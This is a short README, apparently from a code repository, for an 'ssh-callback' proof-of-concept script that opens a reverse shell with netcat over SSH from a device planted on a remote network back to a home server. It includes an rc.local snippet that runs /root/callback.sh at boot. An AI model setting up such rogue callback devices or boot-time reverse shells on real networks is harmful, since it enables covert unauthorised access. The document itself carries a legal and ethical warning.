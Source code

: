 # ssh-callback
This script creates a reverse shell using netcat over SSH...

Requirements:
- Access to a remote network (Be aware, attaching a rogue device on a network you do not own can bring about legal and ethical issues. This is a proof-of-concept script)
- A device on which to run this script, either via CRON or rc.local
- A home server that can accept the SSH callback connections using Public/Private keys (RSA, etc)
- SSH client on remote device
- NetCat (nc) on remote device

Here is how I loaded this in my /etc/rc.local file to run at boot time:

(
until ping -nq -c3 8.8.8.8; do
  sleep 5
done
#
/bin/bash /root/callback.sh
)&
